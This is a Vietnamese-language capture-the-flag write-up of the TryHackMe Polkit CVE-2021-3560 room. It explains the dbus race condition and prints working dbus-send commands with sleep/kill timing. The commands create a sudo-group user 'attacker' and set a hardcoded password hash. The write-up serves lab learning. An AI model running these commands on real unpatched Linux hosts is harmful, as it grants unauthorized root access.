


> # Polkit: CVE-2021-3560 - Tryhackme

# Summary
* [Task 2 - Info Important! About Dynamic Flags](#task-2---info-important-about-dynamic-flags)
* [Task 3 - Tutorial Background](#task-3---tutorial-background)
* [Task 4 - Tutorial Exploitation Process](#task-4---tutorial-exploitation-process)
* [Task 5 - Practical Do it for yourself!](#task-5---practical-do-it-for-yourself)

## Task 2 - Info Important! About Dynamic Flags
1. What is the URL of the website you should submit dynamic flags to?<br>
**Answer:** https://flag.muir.land/

## Task 3 - Tutorial Background
**Polkit là gì?**
Một phần của hệ thống ủy quyền Linux. Khi thực hiện một hành động được yêu cầu một quyền hạn cao hơn, policy toolkit có thể được sử dụng để xác định liệu bạn có đủ đặc quyền hay không. Nó được tích hợp trong `systemd` và có thể cấu hình dễ hơn so với hệ thống sudo truyền thống. Do đó, nó thỉnh thoảng được gọi như là "sudo của systemd". 

Khi tương tác với polkit chúng thể sử dụng `plexec` thay vì `sudo`. Ví dụ, thử chạy lệnh `useradd` thông qua `pkexec` trong phiên GUI sẽ hiển thị một pop-up hỏi tài khoản: `pkexec useradd test1234`

**Cách polkit bị khai thác?**
Bằng cách thủ công gửi thông điệp dbus đến dbus-daemon (một API cho phép các tiến trình khác nhau khả năng giao tiếp với những cái khác), sau đó ngắt yêu cầu trước khi nó hoàn toàn hoàn thành, chúng ta có thể lừa polkit ủy quyền cho lệnh. Nếu bạn không quen với deamons, chúng là những dịch vụ chạy nên trên Linux. dbus-daemons là một chương trình chạy nền gửi thông điệp giữa các ứng dụng.

Lỗ hổng có thể được quy ra các bước:
- Kẻ tấn công thủ công gửi các thông điệp dbus đến tài khoản daemon để yêu cần tạo một người dùng mới với đặc quyền sudo (sau đó, mật khẩu được đặt cho người dùng mới). Thông báo này được cấp một ID nhất định bởi dbus-daemon.

- Kẻ tấn công ngắt thông điệp sau khi polkit nhận được nhưng trước khi polkit kịp xử lý thông điệp đó. Việc này làm gãy quá trình tạp ID riêng biệt.

- Polkit gửi yêu cầu đến dbus-daemon hỏi về ID của người dùng đã gửi thông điệp, thao khảo ID của thông điệp (đã bị xóa).

- dbus-daemon không thể tìm được ID thông điệp vì nó đã bị xóa ở bước 2. nó xử lý lỗi bằng cách phản hồi với một mã lỗi.

- Polkit xử lý lỗi và thay thế 0 đại diện cho ID, là tài khoản root của máy. 

- Nghĩ đó là người dùng root yêu cầu hành động, polkit cho phép yêu cầu đi qua mà không gặp trở ngại gì.

Tóm lại, bằng cách làm mất đi ID trước khi dbus-daemon có cơ hội gửi cho pokit ID đúng, khai thác việc xử lý tệ trong pokit để lừa nó nghĩ rằng yêu cầu này được thực hiện bởi người dùng đặc quyền.

1. In what version of Ubuntu's policykit-1 is CVE-2021-3560 patched?<br>
   **Answer:** 0.105-26ubuntu1,

1. What program can we use to run commands as other users via polkit?<br>
    **Answer:** pkexec

## Task 4 - Tutorial Exploitation Process
Thêm một người dùng `attacker` với đặc quyền sudo, và một mật khẩu là `Expl01ted`.

Thông điệp đầu tiên cần gửi:
```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

Gửi thông điệp đến dbus đến người dùng daemon, in phản hồi và tạo một người dùng mới là `attacker` với mô tả "Pentester Account" và thành viên của nhóm sudo được thiết lập là true.

Thông điệp thứ hai sẽ thiết lập mật khẩu cho tài khoản mới:
```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/UserUSER_ID org.freedesktop.Accounts.User.SetPassword string:'PASSWORD_HASH' string:'Ask the pentester'
```

Một lần nữa gửi thông tin đến người dùng daemon, yêu cầu thay đổi mật khẩu cho người người dùng với ID chỉ định, một mật khẩu hash cần được sinh thủ công, và gợi ý cho câu hỏi.

Để xác định thời gian lệnh chạy bao lâu đặt lên time phía trước.
```
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

Chúng ta cần phải ngắt lệnh trong khoảng thời gian trước khi nó được chạy xong. Với máy ảo được cung cấp nó khoảng 5ms

```

```

Ngủ 0.005s sau đó tắt tiến trình trước. Điều này thành công tạo người dùng mới, thêm chúng vào nhóm sudo.

Sử dụng `openssl` để tạo sha512crypt hash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
Tiếp tục lệnh tạo mật khẩu để hoàn tất quá trình trên.
```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```

## Task 5 - Practical Do it for yourself!
Use above commands to exploit provided machine.<br>
<br>
Submit it on [https://flag.muir.land/](https://flag.muir.land/) to get the flag.<br>
<br>
**Answer:** <redacted>

